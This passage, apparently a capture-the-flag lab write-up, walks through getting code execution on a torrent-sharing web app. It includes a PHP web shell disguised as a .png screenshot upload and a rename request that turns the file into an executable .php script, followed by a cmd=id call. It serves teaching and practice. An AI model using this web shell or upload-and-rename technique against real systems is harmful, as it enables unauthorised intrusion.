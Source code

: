 ![signUp2](/assets/{{ imgDir }}/signUp2.png)

![Upload](/assets/{{ imgDir }}/upload.png)



Once logged in, we can reach the upload page shown above. At this point, there are atleast two ways to get remote code execution. In the next subsection, we'll cover the easier way to do it. After that subsection, there is a subsection detailing how remote code execution can be obtained by uploading a malicious torrent.

## Initial Shell - Uploading a Malicious Image
If we try to upload a torrent file, the upload is successful and we are redirected to the page below, which represents the uploaded torrent. It is possible to find a [legitimate torrent](https://kali.download/base-images/kali-2021.3/kali-linux-2021.3a-installer-amd64.iso.torrent) file to upload on the [Kali Linux website](https://www.kali.org/get-kali/), among other websites.

![torrentPagePicture](/assets/{{ imgDir }}/torrentPagePicture.png)

![uploadTorrentImage](/assets/{{ imgDir }}/uploadTorrentImage.png)

On this page, we can click the `Edit this torrent` button to bring up the web page in the image above, where we can change the screenshot of the torrent. After trying to upload a variety of images and playing around with these requests, it is possible to conclude that the website appears to be accepting files with arbitrary content as long as the file's extension is a valid extension for images (such as `.png`, `.jpg` e.t.c). As such, we create a file named "webShell.png" with the content below, and upload it.

{% highlight php linenos %}
<?php
$cmd = ($_REQUEST['cmd']);
system($cmd);
?>
{% endhighlight %}

![image404](/assets/{{ imgDir }}/image404.png)

If we refresh the page which shows information about our torrent file, we can see that the image has been substituted for an image with the text "Image File Not Found", as can be seen in the image above. The next step is to find where our malicious image was uploaded. If we hover over the new image with the mouse cursor, it is possible to see that it links to a location on the web server `http://10.10.10.6/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.png`. This is the image file we uploaded. Since our image was not a valid image, the screenshot was changed to the "Image File Not Found" image while the link to our uploaded image remained intact. The next thing we need to do is to change the extension of this file to `.php`. If we visit the URL `http://10.10.10.6/rename/index.php?filename=/x&newfilename=/x` we get the response shown below, which leaks the web root of the web application. 

![webRootLeak](/assets/{{ imgDir }}/webRootLeak.png)

In this response, we see that `/var/www` is the root directory of the web application. As such, the full path to the malicious image file should be `/var/www/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.png`. As such, we can visit `http://10.10.10.6/rename/index.php?filename=/var/www/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.png&newfilename=/var/www/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.php` to change its extension to `.php`. Upon visiting the URL, the web server responds with the message `OK!` indicating that it successfully renamed the file. If we navigate to `http://10.10.10.6/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.php?cmd=id`, as shown below, we can see that we do indeed have code execution on the target!
